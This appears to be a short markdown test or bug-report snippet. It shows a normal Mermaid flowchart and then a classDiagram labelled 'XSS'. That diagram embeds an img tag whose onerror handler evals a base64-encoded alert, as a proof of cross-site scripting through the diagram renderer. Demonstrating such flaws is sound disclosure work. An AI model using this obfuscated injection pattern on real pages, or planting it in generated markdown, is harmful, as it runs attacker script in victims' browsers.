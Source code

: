 Example Mermaid:

```mermaid
graph TD;
    A-->B;
    A-->C;
    B-->D;
    C-->D;
```




XSS: 
```mermaid
classDiagram
x <|-- `<img src onerror=eval(atob("YWxlcnQoJ1hTUyBhdCAnK2xvY2F0aW9uKQ"))>`
```
